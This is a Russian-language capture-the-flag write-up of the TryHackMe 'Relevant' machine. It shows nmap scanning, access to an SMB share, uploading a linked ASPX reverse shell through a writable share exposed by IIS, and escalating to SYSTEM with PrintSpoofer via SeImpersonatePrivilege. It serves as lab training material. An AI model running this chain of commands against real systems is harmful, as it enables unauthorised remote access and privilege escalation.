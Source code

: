 # Relevant

:white_check_mark:  [**Samba**](#samba)

:white_check_mark: [**SeImpersonatePrivilege**](#SeImpersonate)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV -p- relevant.thm
```

```
PORT      STATE SERVICE       VERSION                                                                                                                     
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                    
|_http-server-header: Microsoft-IIS/10.0                                                                                                                  
|_http-title: IIS Windows Server                                                                                                                             
| http-methods:                                                                                                                                              
|_  Potentially risky methods: TRACE                                                                                                                      
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                       
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                               
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-02-23T14:44:13+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-02-22T14:23:03
|_Not valid after:  2022-08-24T14:23:03
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-02-23T14:43:33+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Главная страница **relevant.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/1.png)

<a name="samba"></a>

Посмотри что находится на **samba**:
```
smbclient -L relevant.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/2.png)

Находим директорию **nt4wrksv**, посмотрим, что в ней.
```
smbclient \\\\relevant.thm\\nt4wrksv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/3.png)

Находим файл с паролями, скачаем его:
```
get passwords.txt
```

Декодируем и получаем данные пользователей, которые увы, никуда нельзя подставить, т.к. это rabbit hole.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/4.png)

Просканировав url через **gobuster** находим директорию **nt4wrksv**. В эту директорию можно загрузить свой **shell** через **samba**. Покопавшись в интернете находим [shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/5.png)

Запускаем слушатель и открываем shell через url.
```
http://relevant.thm/nt4wrksv/shell.aspx
```

<a name="SeImpersonate"></a>

Подключившись к машине, посмотрим права командой:
```
whoami /priv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Мы можем видеть SeImpersonate privileges, которые могут быть использованы для повышения привилегий. Находим [эксплоит](https://github.com/dievus/printspoofer)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/7.png)

Закидываем эксплоит на **samba**, он будет находиться в директории **C:\inetpub\wwwroot\nt4wrksv**.

Запускаем эксплоит командой:
```
PrintSpoofer -i -c cmd
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Получаем nt authority\system
